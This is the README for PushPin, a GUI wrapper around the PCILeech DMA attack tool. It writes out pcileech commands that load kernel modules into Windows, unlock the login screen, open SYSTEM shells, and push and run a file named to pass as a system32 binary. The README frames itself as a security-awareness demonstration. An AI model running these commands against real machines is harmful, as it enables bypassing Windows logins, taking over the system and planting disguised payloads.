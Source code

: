 ﻿# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows7x64 or Windows 10x64  
* Unlock Windows 
* Mount the targets filesystem and memory
* Mount the targets filesystem and memor:
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
![](source/pushpin_description.png) 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Please ensure [PCILeech Version 4.6](https://github.com/ufrisk/pcileech) functions correctly with the commands listed above. 

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe.

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 Initial release.